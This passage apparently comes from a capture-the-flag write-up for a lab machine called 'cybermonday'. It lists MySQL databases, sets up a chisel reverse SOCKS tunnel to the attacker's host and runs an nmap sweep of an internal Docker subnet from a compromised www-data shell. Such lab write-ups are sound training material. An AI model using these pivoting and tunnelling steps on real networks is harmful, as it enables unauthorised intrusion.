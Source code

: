 There were some databases present:

```
MySQL [(none)]> show databases;
+--------------------+
| Database           |
+--------------------+
| cybermonday        |
| information_schema |
| mysql              |
| performance_schema |
| sys                |
| webhooks_api       |
+--------------------+
```

Within `webhooks_api`, we can see the different webhooks I created:

```
MySQL [webhooks_api]> select * from webhooks;
+----+--------------------------------------+-------+-------------------+---------------+
| id | uuid                                 | name  | description       | action        |
+----+--------------------------------------+-------+-------------------+---------------+
|  1 | fda96d32-e8c8-4301-8fb3-c821a316cf77 | tests | webhook for tests | createLogFile |
|  2 | e2ee722a-3a0c-49b6-be2c-a3a78463ce24 | test  | test              | sendRequest   |
+----+--------------------------------------+-------+-------------------+---------------+
```

Not much here though.

### Docker Registry --> Source Code --> LFI

There are likely more hosts present on the 172.18.0.0/24 subnet, which is the subnet the Docker container is on (read `/etc/hosts` file). To enumerate this, we can change our `chisel` command to use the SOCKS proxy instead of just port forwarding 1 port:

```
./chisel server -p 5555 --reverse
./chisel client 10.10.14.32:5555 R:socks
```

Afterwards, I downloaded and ran the `nmap` binary on the webhook Docker:

```
www-data@070370e2cdc4:/tmp$ ./nmap_binary -sn 172.18.0.0/24 

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-08-24 15:36 UTC
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.18.0.1
Host is up (0.0061s latency).
Nmap scan report for cybermonday_redis_1.cybermonday_default (172.18.0.2)
Host is up (0.0048s latency).
Nmap scan report for cybermonday_api_1.cybermonday_default (172.18.0.3)
Host is up (0.0028s latency).
Nmap scan report for cybermonday_nginx_1.cybermonday_default (172.18.0.4)
Host is up (0.0023s latency).
Nmap scan report for 070370e2cdc4 (172.18.0.5)
Host is up (0.0020s latency).
Nmap scan report for cybermonday_registry_1.cybermonday_default (172.18.0.6)
Host is up (0.0019s latency).
Nmap scan report for cybermonday_db_1.cybermonday_default (172.18.0.7)
Host is up (0.0011s latency).
Nmap done: 256 IP addresses (7 hosts up) scanned in 16.63 seconds
```
